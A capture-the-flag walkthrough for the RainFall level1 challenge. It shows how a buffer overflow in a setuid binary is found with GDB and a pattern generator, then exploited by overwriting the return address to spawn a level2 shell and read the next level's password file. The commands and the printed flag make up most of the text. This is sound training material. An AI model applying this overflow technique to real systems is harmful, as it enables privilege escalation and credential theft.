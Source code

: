 # Level1 Exploit

## Steps

### 1. Initial Analysis

List the files in the directory:

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

### 2. Program Execution

Observe the program behavior with different inputs:

```bash
level1@RainFall:~$ ./level1
olé
level1@RainFall:~$ ./level1 test
423
```

### 3. Disassembling `main` and `run` Functions

Use GDB to disassemble the `main` and `run` functions:

```bash
level1@RainFall:~$ gdb level1
(gdb) disassemble main
(gdb) disassemble run
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

Identify the address of the run function: 0x08048444.

### 4. Finding the Offset

Generate a unique pattern to identify the offset using the [Wiremask pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/):

Run the program with GDB:

```bash
(gdb) r
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 

```

Use the [Wiremask offset calculator](https://wiremask.eu/tools/buffer-overflow-pattern-offset/) to find the offset for `0x63413563`. It correspond to an offset of 76.

### 5. Creating the Exploit

Create an exploit file with the correct padding and the address of `run`:

```bash
level1@RainFall:~$ python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### 6. Executing the Exploit

Use `cat -` to keep stdin open:

```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Explanation

1. **Disassembling Functions**: Use GDB to disassemble the `main` and `run` functions to understand the program flow.
2. **Pattern Generator**: Used to generate a unique and identifiable pattern to find the exact offset where the overflow occurs.
3. **Offset**: Identified as 76, meaning 76 characters fill the buffer up to the EIP.
4. **Payload**: Consists of 76 'A's followed by the address of `run` in little-endian format (`\x44\x84\x04\x08`).
5. **Cat - |**: Keeps stdin open, allowing the launched shell to remain interactive.